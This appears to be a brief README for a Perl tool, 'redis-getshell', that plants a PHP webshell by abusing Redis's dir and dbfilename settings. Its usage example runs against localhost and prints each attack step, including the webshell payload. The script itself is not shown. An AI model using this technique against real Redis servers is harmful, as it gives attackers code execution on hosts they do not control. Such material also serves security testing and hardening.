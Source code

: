 ## redis-getshell

The script below demonstrates the possibility to dump a webshell with redis server

## usage

<pre>
%> ./redis-getshell.pl --host 127.0.0.1 --port 6379 --path /tmp/ooo.php
[+] Connection established 127.0.0.1:6379
[+] Receiving old dbfilename value
[+] Receiving old dir value
[+] Alternating configuration
    -> dir /tmp
    -> dbfilename ooo.php
    -> webshell <?php phpinfo (); ?>
[+] Restoring configuration
</pre>
